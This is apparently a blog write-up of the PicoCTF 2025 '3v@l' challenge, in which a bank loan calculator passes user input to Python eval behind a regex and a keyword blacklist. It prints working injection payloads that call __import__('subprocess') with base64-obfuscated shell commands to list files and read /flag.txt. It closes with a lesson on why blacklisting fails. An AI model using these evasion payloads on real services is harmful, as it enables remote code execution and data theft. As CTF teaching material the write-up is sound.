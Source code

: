 ```yaml
---
title: "PicoCTF 2025 - 3v@l - Writeup"
date: "2025-08-22"
draft: false
summary: "Writeup for the 3v@l challenge from PicoCTF 2025"
tags: ["eval", "writeups", "ctf", "python", "regex", "encoding"]
---
```

# CTF Writeup: 3v@l (PicoCTF 2025)

Description of the challenge: ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an `eval` function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?

Relevant hint: The flag file is /flag.txt

---

Let's first look at the website and it's HTML. We input `5*5` and we get `25` as expected.

<div style="display: flex; gap: 10px;">
  <img src="./frontend.png" alt="Website Screenshot" height="200"/>
  <img src="./55.png" alt="Result Screenshot" height="200"/>
</div>

The HTML reveals interesting information: Some words / functions are blacklisted and there is a regex used to filter the (numeric) input. 
![Comment Screenshot](./html_comment.png)

Since I am not crazy about regex, I let an LLM do the work for me. If we trust ChatGPT, the regex is:
```
1. 0x[0-9A-Fa-f]+
  Matches hexadecimal numbers starting with 0x.
  Example: 0xFF, 0x1a2b.
2. \\u[0-9A-Fa-f]{4}
  Matches Unicode escape sequences.
  \u followed by exactly 4 hex digits.
  Example: \u0041 (which is "A").
3. %[0-9A-Fa-f]{2}
  Matches URL-encoded values.
  % followed by 2 hex digits.
  Example: %20 (space), %2F (slash).
4. \.[A-Za-z0-9]{1,3}\b
  Matches a dot followed by 1–3 alphanumeric characters, then a word boundary.
  Designed to catch file extensions like .py, .exe, .sh.
  Example: .py, .txt.
5. [\\\/]
  Matches a backslash (\) or forward slash (/).
  Useful to detect paths or escape sequences.
  Example: /etc/passwd, C:\Windows.
6. \.\.
  Matches two dots literally (..).
  Prevents directory traversal attacks.
  Example: ../../etc/passwd.
```
So, we are quite restricted in what we can input. Normally, the `eval` function is used to evaluate a string as (python) code. However, in this case, the input is filtered by the regex, which makes is a bit harder to do RCE. If you remember my last writeup, I used Python's built in functions to import a module and use it to execute code.

Maybe, we can also do this here, since we can use the `__import__` function to import a module and use it to execute code. It is NOT blocked by the regex... Do you see the problem with blacklisting??

If this works, we still have another problem: We can't use `ls` and `cat` to read the flag. But... maybe we can hide them in plain sight?

Surely we can just try to base64 encode the command and then decode it in the a shell?

```
__import__("subprocess").check_output( ["bash", "-c", "$(echo 'bHM=' | base64 --decode)"],
    text=True)
``` 
This will get the job done. We import the `subprocess` module, check the output of the command `ls` (which is `bHM=`inb64) and decode the base64 encoded string. That way, the shell can execute the command without the blacklist catching it.
![Ls Screenshot](./ls.png)

Great, this works! Now, we should be able to read the flag, which is at `/flag.txt`. So, we hide `cat /flag.txt` as `Y2F0IC9mbGFnLnR4dA==` and read the flag!

```
__import__("subprocess").check_output(["bash", "-c", "$(echo 'Y2F0IC9mbGFnLnR4dA==' | base64 --decode)"],text=True)
```

![Flag Screenshot](./flag.png)

So, what did we learn here? Blacklisting is oftentimes not a good idea. It is easy to forget something, like in our case, the `__import__` function. Also, we can use base64 encoding to hide commands from the blacklist. Hence, blacklisting really didn't work here, at all. 